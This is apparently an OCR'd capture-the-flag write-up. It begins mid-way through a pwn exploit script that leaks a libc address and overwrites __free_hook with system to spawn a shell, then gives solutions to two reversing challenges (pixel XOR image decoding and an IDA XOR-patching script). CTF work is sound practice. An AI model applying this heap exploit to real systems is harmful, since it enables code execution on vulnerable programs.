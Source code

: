 ```python
    realloc(0x50,p64(0))
    malloc(0x58,'/bin/sh\x00'+p64(0xfbad3c80)+p64(0)*3+p8(0))
    rv(8)
    libc_addr = u64(rv(8)) - 0x3ed8b0
    lg("libc",libc_addr)
    libc.address = libc_addr
    realloc(0x150, '\x00'*0x58 + p64(0x21) + p64(libc.symbols['__free_hook'])+p64(0x21)*4)
    realloc(0,'')
    realloc(0x70,'\x00')
    realloc(0,'')
    realloc(0x70,p64(libc.symbols['system']))
    rm('m')
    sl("cat flag")
    p.interactive()

```

## meow (Reverse) 174pt

we can dump the bytecode by nekoc.exe
read it and find the pic is 768*768, and the program call read_pixel twice then write_pixel twice.
so test it by all (0,0,0)
find the pixel equation is `p[ i, j ] = p[ o[i], j ]  ^ t[ i, j ]`
so dump the t by all `(0,0,0)`
and dump the o by `p[i, j] = (0, i%256, i//256)`
we can decode it

```python
from PIL import Image
with open("t", "rb") as f:
    t = f.read()
with open("o", "r") as f:
    o = f.readlines()

img = Image.open("flag_enc.png")
p = img.load()
flag = Image.new("RGBA", (768, 768))
for i in range(768):
    for j in range(768):
        tt = t[i*768+j]
        oo = int(o[i])
        pp = p[i,j]
        flag.putpixel((oo,j), (pp[0]^tt, pp[1]^tt, pp[2]^tt, 255))
flag.save("flag.png")

```

## EBC (Reverse) 232pt

```python
from ida_bytes import get_dword, patch_dword

code = 0x401354
magic = 0x10028160
#ln, ptr = 0x2C0, 0x402114
#ln, ptr = 0x760, 0x4023DC
#ln, ptr = 0x830, 0x402B44
ln, ptr = 0x930, 0x40337C
key = get_dword(ptr) ^ magic
print('0x%08X' % (key))
for i in xrange(0, ln, 4):
    patch_dword(code + i, get_dword(ptr + i) ^ key)

```